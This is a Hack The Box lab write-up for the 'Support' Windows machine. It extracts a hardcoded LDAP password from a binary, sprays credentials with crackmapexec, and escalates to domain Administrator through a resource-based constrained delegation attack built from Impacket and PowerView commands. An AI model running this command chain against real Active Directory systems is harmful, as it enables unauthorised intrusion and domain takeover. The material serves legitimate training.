

# Support

<figure><figcaption><p>HTB Support</p></figcaption></figure>

### Port scanning

```bash
sudo nmap -sV -sT -sC -oA nmap_initial 10.10.11.174
```

Output:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:32 WIB
Nmap scan report for support.htb (10.10.11.174)
Host is up (0.023s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-17 14:32:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-07-17T14:32:52
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.55 seconds
```

Enumerate SMB

```bash
smbclient -L 10.10.11.174 --no-pass
```

<figure><figcaption><p>Found shares</p></figcaption></figure>

And then, download all files from support-tools.

```bash
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

<figure><figcaption><p>Download all files</p></figcaption></figure>

Now, we will extract the password from **UserInfo**. There are two options to get the password: static analysis and dynamic analysis.

### Dynamic Analysis

Try to run UserInfo.exe, before that, run tcpdump to check if there is any requests from the app.

```bash
sudo tcpdump -i tun0
```

```bash
mono UserInfo.exe find -first ''
```

<figure><figcaption><p>Run the program</p></figcaption></figure>

Check at tcpdump.

<figure><figcaption><p>tcpdump response</p></figcaption></figure>

After confirmed that the UserInfo send connection to the server, analyze the traffic with Wireshark.

<figure><figcaption><p>Paintext password</p></figcaption></figure>

Got credentials:

```
support\ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Static Analysis

Use AvaloniaILSpy do decompile the program.

<figure><figcaption><p>ILspy Linux</p></figcaption></figure>

We found the encrypted password and the key. Use python script to decrypt the key.

```python
#! /usr/bin/env python3
import base64

def get_password():
    encoded_string = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
    key = b"armando"

    array = base64.b64decode(encoded_string)
    array2 = bytearray(array)

    for i in range(len(array)):
        array2[i] = (array[i] ^ key[i % len(key)] ^ 0xDF)

    return array2.decode("utf-8")
password = get_password()
print(password)
```

<figure><figcaption><p>Get the password</p></figcaption></figure>

### LDAP Enumeration

Enumerate all information using ldapsearch.

Query all username:

```bash
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b 'DC=support,DC=htb' "(objectClass=person)" | \
grep "sAMAccountName:" | sed 's/sAMAccountName: //g'
```

Query all distinguished name.

```bash
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'DC=support,DC=htb' "(objectClass=person)" | grep "dn:"
```

Enumerate all information at dn support.

```bash
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=support,CN=Users,DC=support,DC=htb"
```

We found a credential at support info.

<figure><figcaption><p>Found password</p></figcaption></figure>

Found creds:

```
Ironside47pleasure40Watchful
```

Next, spray the password to other account.

```bash
crackmapexec winrm 10.10.11.174 -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

<figure><figcaption><p>Password spray with Crackmapexec</p></figcaption></figure>

### Get Low User

```bash
evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
```

<figure><figcaption><p>Get low user</p></figcaption></figure>

### Privilege Escalation

After googling, i found useful article here:

* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
* https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
* https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview
* https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd

First, we need to add computer to domain with Impacket.

```bash
impacket-addcomputer 'support.htb/support:Ironside47pleasure40Watchful' -computer-name 'ayanami' -computer-pass 'ayanami'
```

Then, import PowerView on target system.

```powershell
Import-Module .\PowerView.ps1
Get-DomainComputer
Get-DomainComputer ayanami
```

Now, edit the target's "rbcd" attribute

```bash
impacket-rbcd -delegate-to 'DC$' -dc-ip 10.10.11.174 -action 'read' 'support.htb/support:Ironside47pleasure40Watchful'
impacket-rbcd -delegate-from 'ayanami$' -delegate-to 'DC$' -dc-ip 10.10.11.174 -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

Now, obtain a ticket (delegation operation)

```bash
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174 'support.htb/ayanami$:ayanami'
```

Get shell as Administrator.

```bash
KRB5CCNAME=administrator.ccache impacket-psexec -dc-ip 10.10.11.174 -no-pass -k support.htb/administrator@dc.support.htb
```

<figure><figcaption><p>Owned</p></figcaption></figure>

### Tools Used

Tools used in this machine.

* [https://github.com/icsharpcode/AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy)
* ldapsearch
* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
* [https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
* [https://github.com/fortra/impacket](https://github.com/fortra/impacket)
* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
